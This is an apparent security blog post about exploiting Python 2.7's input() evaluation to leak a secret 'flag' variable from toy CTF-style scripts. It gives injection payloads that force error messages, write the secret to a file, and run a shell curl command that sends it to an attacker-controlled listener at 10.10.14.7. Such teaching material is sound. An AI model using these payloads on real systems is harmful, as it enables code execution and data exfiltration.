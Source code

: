 ```yaml
---
title: Python - Hacking with style - input
description: Magic python input to compromise scripts
categories: python
author: Xh4H
tags: python proof-of-concept shell input vulnerability
---
```


This is the second part of [Python 2.7 input security issues](https://posts.xh4h.com/python/2019/08/02/input_poc.html) post.

In this post we will see what can be done appart from spawning a shell.

<br>

# Getting variable values

## Case 1 - string variable:

We are given a piece of code with hidden variable values:

```py
import string, random

flag = "xxxxxxxxxxxxxxxxxxx"
password = ''.join(random.choice(string.ascii_lowercase) for i in range(11))

if input("Password > ") == password:
	print "Awesome!"
else:
	print "Wrong!"
```

This simple script generates a 11 char length string, and we have to guess it.

There's `flag` variable, and we are interested on getting it's value.

A simple method is generating an error using that variable with `input`:

<div style="text-align:center"><img src="/assets/images/python2_image_1.png" /></div>

By attempting to parse to int a string that is not solely filled by numbers we will get an exception error, and since it did not get handled, we get the raw error output, containing, so, the variable content.

`1_am_s0_1nT3r3stinG`

## Case 2 - numeric variable:

In the following scenario the flag will only be numbers. We will re-use the same code from `Case 1`.

<div style="text-align:center"><img src="/assets/images/python2_image_2.png" /></div>

In this case we can't take advantage of parse to int feature, oh well, maybe we can...

<div style="text-align:center"><img src="/assets/images/python2_image_3.png" /></div>

What we did above is pretty simple. Given a string variable filled by numbers, we can concatenate a non-numeric character and afterwards parse to int the variable, getting so, our flag (removing, of course, the last character we added).

`123542562362161346`

## Case 3 - exceptions handled:

We took advantage of non-existant exception handling in the previous 2 cases.

Now we are given a script that is handling any exception. How can we get our precious flag?

```py
import string, random

flag = "xxxxxxxxxxxxxxxxxxxxxxxxxxxx"
password = ''.join(random.choice(string.ascii_lowercase) for i in range(11))

try:
	if input("Password > ") == password:
		print "Awesome!"
	else:
		print "Wrong!"
except Exception as e:
	print "What are you doing?!"
```

If we put into practice the previous technique, we will get the `What are you doing?!` print, since any exception is being handled now.

We are going to have a look at **two** different techniques.

_Please note, `Case 3.2` can also be solved with `Case 3.1`, but the aim is having different cases to explore different possibilities._

### Case 3.1 - Re-using input function over and over ...

First let's understand how `input` function is used:

```py
input("Hey, write something here: ")
```

This piece of code will print ``Hey, write something here: `` and then ask for user input.

Since it is expecting a string, we can pass the flag as parameter.

<div style="text-align:center"><img src="/assets/images/python2_image_4.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

### Case 3.2 - Having access to the script location

If we have, let's say `ssh` access to the server where the script is being hosted, we can output the flag variable content to a file, and then read it.

With the following input, we will create a file called `my_flag` and write the flag to it.

```py
open("my_flag", "w").write(flag)
```

<div style="text-align:center"><img src="/assets/images/python2_image_5.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

### Case 3.3 - Remote connection? CURL it to me please!

Final case, let's imagine that this script is listening in port 8000. We don't have access to the server, we are establishing a connection using netcat `nc`.

We can execute a system command and curl the content of a variable through our pc.

First, set up an http listener using port 80:

```sh
python -m SimpleHTTPServer 80
```

Second, figure out our IP address. We have to take into account whether we are in a private network to access the server where that script is located.
Let's say we used an `OpenVPN` profile to be able to `netcat` to the target server. It is very likely that the target server won't have access to external IPs, therefore we will have to get our tunnel IP (tun0).

```sh
ifconfig tun0
```

<div style="text-align:center"><img src="/assets/images/python2_image_6.png" /></div>

We are going to use the following IP: ``10.10.14.7``.

We are now ready to retrieve that flag!

With the following line, we will be able to execute a bash system command, call curl appending to the url the variable we want:

```py
__import__('os').system("curl http://10.10.14.7/" + flag)
```

<div style="text-align:center"><img src="/assets/images/python2_image_7.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

<br>
<br>

Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>